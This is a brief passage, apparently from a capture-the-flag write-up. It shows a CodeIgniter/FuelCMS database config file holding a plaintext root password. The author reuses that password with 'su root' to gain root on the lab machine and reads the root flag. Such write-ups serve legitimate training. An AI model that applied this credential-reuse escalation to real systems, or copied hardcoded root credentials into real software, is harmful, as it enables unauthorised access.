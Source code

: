 ```
$query_builder = TRUE;

$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);

// used for testing purposes
if (defined('TESTING'))
{
        @include(TESTER_PATH.'config/tester_database'.EXT);
}

```

If we try it on the machine we have root access :

```
www-data@ubuntu:/$ su root
Password: mememe

root@ubuntu:/# cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d 
```

Pwned !!